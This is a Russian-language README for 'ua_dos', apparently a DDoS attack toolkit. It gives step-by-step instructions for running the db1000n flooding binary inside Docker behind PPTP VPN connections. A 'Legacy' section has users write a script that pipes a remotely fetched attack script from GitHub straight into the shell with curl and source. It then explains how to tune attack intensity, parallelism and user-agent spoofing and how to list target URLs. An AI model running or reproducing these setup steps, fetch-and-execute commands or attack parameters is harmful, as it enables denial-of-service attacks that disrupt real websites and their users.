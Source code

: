 # ua_dos
## Docker
Внутри докера запускается pptp vpn соединение и бинарник db1000n проекта https://github.com/Arriven/db1000n.
Нужно создать файлы конфигурации pptp в директории: `ansible/confign/files/vpn1...*` и файл паролей `ansible/confign/files/chap-secrets`.
Пример файла vpn1:
```
pty "/usr/sbin/pptp hostvpn1 --loglevel 0 --nolaunchpppd"
lock
noauth
nobsdcomp
nodeflate
name uservpn1
remotename vpn1
ipparam vpn1
persist
maxfail 0
holdoff 10
```
Здесь задаются: `hostvpn1` - IP адрес, или домен vpn сервера; `uservpn1` - имя пользователя pptp подключения; `vpn1` - названия vpn подключения.

Пример файла chap-secrets:
```
# Secrets for authentication using CHAP
# client        server  secret                  IP addresses
uservpn1 vpn1 "passwordvpn1" *
...
uservpn* vpn* "passwordvpn*" *
```
Здесь задаются:`uservpn1` - имя пользователя pptp подключения;`passwordvpn1` - пароль pptp подключения; `vpn1` - названия vpn подключения.

При сборке image эти файлы забираются внутрь.

Собирается image командой:
```
docker image build --force-rm -t ua_dos:0.1 .
```
После чего нужно создать network ipvlan типа:
```
docker network  create -d ipvlan --subnet=192.168.0.0/24 -o parent=wlo1 gwnet
```
Здесь `192.168.0.0/24` - сеть, которую раздает wifi роутер (С помощью которой хостовая машина подключена к интернету); `wlo1` - название wifi интерфейса в ноутбуке (На котором выше описаная сеть от роутера); `gwnet` - название новосозданной сети docker.
Эту информацию можно посмотреть в выводе команды `ifconfig` на хостовой машине (В данном случае ноутбук).

Запуск контейнера можно осуществлять двумя способами:
 1. В интерактивном режиме:
```
docker run --name node1 --privileged --net=gwnet --ip 192.168.0.2 -it ua_dos:0.1 vpn1
```
 2. В режиме демона:
```
docker run --name node2 --privileged --net=gwnet --ip 192.168.0.3 -d ua_dos:0.1 vpn1
```
Где `vpn1` - название vpn подключения, которое будет инициировано при запуске контейнера. `--ip 192.168.0.3` - IP адрес который будет присвоек запускаемому контейнеру (Должен быть из ранее созданной сети `--subnet=192.168.0.0/24`)
Настроить проброс ssh пока не получилось.

## Legacy
Атака `ntct` заброшена, с `curl-atack` можно работать.

1. Создай файл с любым названием *(Например: "curl-atack")*.
2. Запиши в файл две строки:
```
#!/bin/bash
source <(curl -Ls https://raw.githubusercontent.com/bro2020/ua_dos/main/curl-atack)
```
3. Сделай файл исполняемым, выполнив команду:
```
chmod +x "название файла"
(Например: chmod +x curl-atack)
```
4. Запусти файл:
```
./"название файла"
(Например: ./curl atack)
```
Загрузка таргетов пошла, через несколько секунд отобразится информация, которая будет обновляться.

Для остановки на клавиатуре зажать `Ctrl+C`. При этом завершаться **ВСЕ** процессы curl запущенные в операционной системе!

Если хочешь переопределить параметры, для увеличения/уменьшения интенсивности и увеличения/уменьшения нагрузки на оборудование ...

1. Создай файл `curl-atack-env.txt`
2. Запиши в него следующие строки:
```
rcount=$((RANDOM%10+7)) # количетво итераций, после которого принудительно завершаются процессы curl
sq1=$((RANDOM%3+1)) # количество параллельно выполняемых циклов
sq2=$((RANDOM%3+2)) # количество прогонов в каждом из параллельных циклов (1 итерация)
t1=$((RANDOM%7+7)) # таймают перед принудительным завершением процессов curl)
t2=$((RANDOM%2+1)) # таймаут(скорость) запуска проходов в параллельно выполняемых циклах
t3=$((RANDOM%3+1)) # таймаут после завершения всех проходов в параллельных циклах
t4='15' # таймаут автоматического непрерывного завершения процессов curl в каждом проходе

UA1='Mozilla/5.0 (Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA2='Mozilla/5.0 (Macintosh; Intel Mac OS X 12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA3='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA4='Mozilla/5.0 (Linux; Android 10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.78 Mobile Safari/537.36'
UA5='Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0'
```
3. Меняй их по вкусу. Сюда же можно вписать свои таргеты в виде задания переменных:
```
H1='http://target.ru'
...
H50='https://target.ru'
```
